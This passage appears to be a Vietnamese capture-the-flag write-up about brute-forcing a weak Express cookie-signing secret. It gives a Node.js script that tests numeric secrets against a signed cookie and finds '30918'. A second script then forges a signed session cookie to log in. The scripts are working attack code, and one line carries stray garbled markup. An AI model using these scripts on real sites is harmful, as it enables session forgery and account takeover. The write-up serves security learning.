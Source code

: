 ![image](https://hackmd.io/_uploads/H1dgz_gH1g.png)

Ok thì làm sau để brute force thì mình có đọc qua doc của hàm tạo signature dựa vào cookie và secret 
    
https://github.com/tj/node-cookie-signature/blob/master/index.js#L16-L24
    
Có công thức rồi thì thế số vào thôi 🐧     
Mình có script để check các secret trong khoảng trên như sau 
    
```js
var crypto = require('crypto');
function sign (val, secret){
    if ('string' != typeof val) throw new TypeError("Cookie value must be provided as a string.");
    if (null == secret) throw new TypeError("Secret key must be provided.");
    return val + '.' + crypto
      .createHmac('sha256', secret)
      .update(val)
      .digest('base64')
      .replace(/\=+$/, '');
};
data="f_NQ6CvVqYcD8Uskp5AKgmOhQ_Rljxzb"
s="wbp4w0leEWw8XECzny0slzROSOLSp42ywTrD6pkbN4A"
for (let i=0; i<40000; i++){
    if (sign(data, String(i)) == data+"."+s){
        console.log("Found :", i)
        break
    }
}
    
```
    
Khi chạy thì ta có kết quả secret là 30918></40000;>
                                
![image](https://hackmd.io/_uploads/ryWFjdlHJx.png)

Từ file session và secret mình có thể tạo ra cookie để login vào bằng hàm sign đã xài ở trên
    
```js
var crypto = require('crypto');
function sign (val, secret){
    if ('string' != typeof val) throw new TypeError("Cookie value must be provided as a string.");
    if (null == secret) throw new TypeError("Secret key must be provided.");
    return val + '.' + crypto
      .createHmac('sha256', secret)
      .update(val)
      .digest('base64')
      .replace(/\=+$/, '');
};
data="hZ-cQfCYf55YkYHaJJQFh_I-QviU-333"
secret="30918"
console.log("s:"+sign(data, secret))    
```
    
![image](https://hackmd.io/_uploads/HyYch_gHJg.png)
